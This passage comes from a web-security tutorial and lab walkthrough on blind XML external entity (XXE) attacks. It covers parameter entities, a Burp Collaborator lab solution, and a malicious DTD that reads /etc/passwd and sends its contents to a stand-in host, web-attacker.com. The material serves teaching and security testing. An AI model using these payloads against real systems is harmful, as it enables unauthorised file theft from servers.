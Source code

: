 ```
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

### Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

**Solution**
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
    ```
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
    ```
3. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Exploiting blind XXE to exfiltrate data out-of-band

What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the */etc/passwd* file is as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

